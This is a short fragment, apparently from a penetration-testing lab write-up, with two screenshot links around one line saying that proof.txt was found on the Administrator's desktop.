

Found the proof.txt in Administrator Desktop:



